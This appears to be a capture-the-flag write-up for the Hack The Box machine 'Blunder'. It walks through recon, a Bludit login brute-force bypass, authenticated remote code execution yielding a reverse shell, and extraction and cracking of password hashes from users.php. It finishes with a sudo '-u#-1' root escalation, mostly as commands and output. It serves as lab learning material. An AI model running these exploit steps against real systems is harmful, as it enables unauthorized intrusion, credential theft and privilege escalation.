






# Blunder

## Machine Info



## Recon

- nmap

```console
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts
|_http-generator: Blunder
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Linux 5.X|4.X|2.6.X (97%)
OS CPE: cpe:/o:linux:linux_kernel:5.0 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:2.6.32
Aggressive OS guesses: Linux 5.0 (97%), Linux 4.15 - 5.8 (90%), Linux 5.0 - 5.4 (90%), Linux 5.3 - 5.4 (89%), Linux 2.6.32 (89%), Linux 5.0 - 5.5 (88%)
No exact OS matches for host (test conditions non-ideal).
```

- path

```console
$ gobuster dir -u http://10.10.10.191/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt -t 64 --no-error
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.191/
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/about                (Status: 200) [Size: 3281]
/0                    (Status: 200) [Size: 7562]
/admin                (Status: 301) [Size: 0] [--> http://10.10.10.191/admin/]
/install.php          (Status: 200) [Size: 30]
/robots.txt           (Status: 200) [Size: 22]
/todo.txt             (Status: 200) [Size: 118]
/usb                  (Status: 200) [Size: 3960]
/LICENSE              (Status: 200) [Size: 1083]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

- username recon -> `fergus`

```console
$ curl http://10.10.10.191/todo.txt
-Update the CMS [-> UNDONE -> vuln maybe]
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
```

- CMS version recon -> `Bludit 3.9.2`



## Foothold

### CVE-2019-17240 Authentication Bruteforce Mitigation Bypass

`bl-kernel/security.class.php` in Bludit 3.9.2 allows attackers to bypass a brute-force protection mechanism by using many different forged X-Forwarded-For or Client-IP HTTP headers.

- Exploit Code: [ColdFusionX/CVE-2019-17240_Bludit-BF-Bypass: Bludit <= 3.9.2 - Authentication Bruteforce Mitigation Bypass Exploit/PoC (github.com)](https://github.com/ColdFusionX/CVE-2019-17240_Bludit-BF-Bypass)

- **Dictionary Attack**:

```console
$ echo 'fergus' > users.txt

$ cewl http://10.10.10.191 > passwords.txt

$ python exploit.py -l http://10.10.10.191/admin/login.php -u users.txt -p passwords.txt
[∧] Brute Force: Testing -> fergus:Foundation
[┤] Brute Force: Testing -> fergus:him
[.......\] Brute Force: Testing -> fergus:Distinguished
[▅] Brute Force: Testing -> fergus:Contribution
[◤] Brute Force: Testing -> fergus:Letters
[ ] Brute Force: Testing -> fergus:probably
[..../...] Brute Force: Testing -> fergus:best
[◥] Brute Force: Testing -> fergus:fictional
[▄] Brute Force: Testing -> fergus:character
[▇] Brute Force: Testing -> fergus:RolandDeschain

[*] SUCCESS !!
[+] Use Credential -> fergus:RolandDeschain
```

- Credential: `fergus:RolandDeschain`

### CVE-2019-16113 Authenticated RCE

CVE-2019-16113 Bludit 3.9.2 allows remote code execution via `bl-kernel/ajax/upload-images.php` because PHP code can be entered with `a .jpg` (or .png) `file name`, and then this PHP code can write other PHP code to a `../` pathname.

Exploit Codes:

- [ynots0ups/CVE-2019-16113 (github.com)](https://github.com/ynots0ups/CVE-2019-16113/tree/master)
- [hg8/CVE-2019-16113-PoC: Bludit >= 3.9.2 - Authenticated RCE (CVE-2019-16113) (github.com)](https://github.com/hg8/CVE-2019-16113-PoC/tree/master)

```console
$ python cve-2019-16113.py
[+] Login successful!
[+] Upload of malicious file olhcexeloq.png successful!
[+] Modification of .htaccess successful!
[+] Sending request to spawn shell. You may Crtl+C this program once shell is recieved.
```

```console
$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.54] from (UNKNOWN) [10.10.10.191] 40702
Linux blunder 5.3.0-53-generic #47-Ubuntu SMP Thu May 7 12:18:16 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 07:13:14 up 10:36,  1 user,  load average: 29.01, 35.07, 34.32
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
shaun    :0       :0               20:37   ?xdm?   8:49   0.01s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu /usr/bin/gnome-session --systemd --session=ubuntu
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ uname -a
Linux blunder 5.3.0-53-generic #47-Ubuntu SMP Thu May 7 12:18:16 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:70:3d brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.191/24 brd 10.10.10.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:703d/64 scope link
       valid_lft forever preferred_lft forever
```

## Privilege Escalation

### www-data -> hugo

- password enum: for Bludit, search google and get [Can't remember login/password in Admin - Bludit Community Support Forum](https://forum.bludit.org/viewtopic.php?t=767)



- check `users.php` file inside both bludit version dirs
  - 3.9.2
    - admin  -> Salt: `5dde2887e7aca`, SHA1-hash: `bfcc887f62e36ea019e3295aafb8a3885966e265`
    - author -> Salt: `jqxpjfnv`, SHA1-hash: `be5e169cdf51bd4c878ae89a0a89de9cc0c9d8c7`
  - 3.10.0
    - `faca404fd5c0a31cf1897b823c695c85cffeb98d`

```console
www-data@blunder:/var/www/bludit-3.9.2/bl-content/databases$ cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Admin",
        "firstName": "Administrator",
        "lastName": "",
        "role": "admin",
        "password": "bfcc887f62e36ea019e3295aafb8a3885966e265",
        "salt": "5dde2887e7aca",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""
    },
    "fergus": {
        "firstName": "",
        "lastName": "",
        "nickname": "",
        "description": "",
        "role": "author",
        "password": "be5e169cdf51bd4c878ae89a0a89de9cc0c9d8c7",
        "salt": "jqxpjfnv",
        "email": "",
        "registered": "2019-11-27 13:26:44",
        "tokenRemember": "",
        "tokenAuth": "0e8011811356c0c5bd2211cba8c50471",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "codepen": "",
        "instagram": "",
        "github": "",
        "gitlab": "",
        "linkedin": "",
        "mastodon": ""
    }
}
```

```console
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```

- 3.10.0 SHA1 hash crack: [Online SHA1 Encryption and Decryption (md5decrypt.net)](https://md5decrypt.net/en/Sha1/)



- su hugo with password: `Password120`

### hugo -> root

- sudo enum
  - Version Info: `1.8.25p1`
  - `(ALL, !root) /bin/bash`

```console
hugo@blunder:~$ sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
hugo@blunder:~$ sudo --version
Sudo version 1.8.25p1
Sudoers policy plugin version 1.8.25p1
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.25p1
```

- **check sudo exploit**: [SUDO_KILLER/cve.sudo.manual.txt at V2 · TH3xACE/SUDO_KILLER (github.com)](https://github.com/TH3xACE/SUDO_KILLER/blob/V2/cve.sudo.manual.txt)





- use `-u#-1` or `-u#4294967295` to execute bash as root priv

```console
hugo@blunder:/tmp$ sudo -u#-1 /bin/bash # sudo -u#4294967295 /bin/bash
root@blunder:/tmp# id
uid=0(root) gid=1001(hugo) groups=1001(hugo)
root@blunder:/tmp# uname -a
Linux blunder 5.3.0-53-generic #47-Ubuntu SMP Thu May 7 12:18:16 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
root@blunder:/tmp# cat /root/root.txt
63e2a7e25cexxxxxxxxxxxxxxxxxxxxx
```

## Exploit Chain

port scan -> path scan -> username get, cms version get -> brute force mitigation bypass -> cms cred get -> authenticated rce -> www-data shell -> enum: sudo version -> -u#-1 or -u#4294967295 -> root shell
